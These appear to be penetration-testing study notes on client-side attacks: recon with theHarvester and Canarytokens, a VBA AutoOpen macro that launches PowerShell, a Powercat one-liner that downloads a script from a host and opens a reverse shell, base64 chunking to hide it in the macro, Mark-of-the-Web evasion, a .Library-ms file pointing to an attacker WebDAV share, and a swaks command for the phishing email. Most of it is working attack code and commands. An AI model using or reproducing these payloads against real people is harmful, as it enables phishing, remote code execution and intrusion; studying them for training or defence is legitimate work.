 ```yaml
---
layout: blank
---
```


### Information Gathering

- **Metadata**
	- Examining metadata of company-created PDFs can be a good source of information
- theHarvester - searches for emails given a domain -d
- **Client Fingerprinting**
	- Canarytokens - tool that can fingerprint a computer from a link
		- This token grabs browser info, IP address, and OS info

### Attacking MS Office

- **MS Office Attack**
	- Can't send malware directly by email, so we need to get them to download the spreadsheet with macros from a link
	- Also need to "blur" the spreadsheet so victim clicks "Enable Editing" to allow macros
	- Avoid Mark of the Web (MOTW) by putting malware inside 7zip, ISO, IMG
- **MS Office Macros**
	- To make macros: View -> Macros
	- Basic macro code that opens powershell:
```
Sub AutoOpen()

  MyMacro

End Sub
Sub Document_Open()

  MyMacro

End Sub
Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"

End Sub
```
- Powercat
	- Creates reverse shells, but detected by defender
	- Command to download/execute the reverse shell: `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell`
		- This is just grabbing a hosted powershell script
		- Powercat: 
	- Can be passed to the macro by encoding it in chunks of 50 base64 characters:
		- `Dim Str as String`
		- `Str = Str + "powershell.exe -nop -w hidden -enc {base64}"`
		- `Str = Str + {base64}"`
		- `CreateObject("Wscript.Shell").Run Str`

### Abusing Windows Library Files
- Windows library files are less well-known and can be equally effective
- Executing .Library-ms file into executing .lnk file
- These files display remote directories like local directories, where we put .lnk file
	- `pip3 install wsgidav` for a WebDAV server to host/serve files
	- usage: `wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root {directory}`  
- config.Library-ms file contents:
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
- Sending a phishing email with the share:
	- `sudo swaks -t {to_email} -t {to_email} --from {from_email} --attach @config.Library-ms --server {mail_server} --body @body.txt --header "Subject: Staging Script" --suppress-data -ap`